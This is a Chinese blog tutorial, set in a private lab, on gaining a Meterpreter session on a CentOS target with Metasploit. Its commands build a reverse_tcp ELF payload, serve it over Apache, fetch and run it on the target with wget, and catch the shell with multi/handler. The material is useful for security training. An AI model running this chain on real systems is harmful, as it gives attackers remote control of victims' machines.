 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用Metasploit实现对Linux客户端的渗透
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 使用Metasploit实现对Linux客户端的渗透
lock: need
---
```


# 使用Metasploit实现对Linux客户端的渗透

攻击机 Kali 192.168.175.128

靶机 CentOS 6.5 192.168.175.132

## 生成elf文件

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.175.128 LPORT=5555 -f elf > /var/www/html/pay.elf
```

这里，我们将生成的pay.elf文件保存到了/var/www/html/目录下。

## 启动apache服务器

```bash
service apache2 start
```

## 在靶机上下载pay.elf

这里，假设我们经过一系列的渗透取得了靶机的权限，在靶机上执行如下命令

```bash
wget http://192.168.175.128/pay.elf
chmod a+x pay.elf
./pay.elf
```

## 在攻击机上执行攻击操作

```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
setg LHOST 192.168.175.128
setg LPORT 5555
exploit
```

这样，我们就可以获取目标服务器的Meterpreter了。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
